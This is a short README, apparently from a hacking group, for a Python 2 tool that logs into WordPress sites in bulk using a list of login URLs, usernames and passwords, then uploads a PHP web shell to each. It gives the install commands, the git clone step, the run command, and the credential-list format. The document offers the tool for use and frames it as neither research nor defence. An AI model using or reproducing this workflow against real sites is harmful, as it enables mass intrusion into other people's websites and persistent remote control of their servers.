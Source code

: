 # Wordpress Auto Upload Shell
![NGEHEK](https://raw.githubusercontent.com/AnonRoz-Team/wp_auto_upshell/main/IMG_20201012_175906.jpg?raw=true)
# Author
```
Nickname : D4RKSH4D0WS
Team : AnonRoz-Team
```

# Requirements
```
requests bs4
```

# Installation
```
$ pkg install python2
$ pip2 install requests bs4
$ git clone https://github.com/AnonRoz-Team/wp_auto_upshell
$ cd wp_auto_upshell
$ python2 wp.py list_web.txt sh3l.php
Isi list_web.txt seperti ini 
https://web.com/wp-login.php|admin|password
```
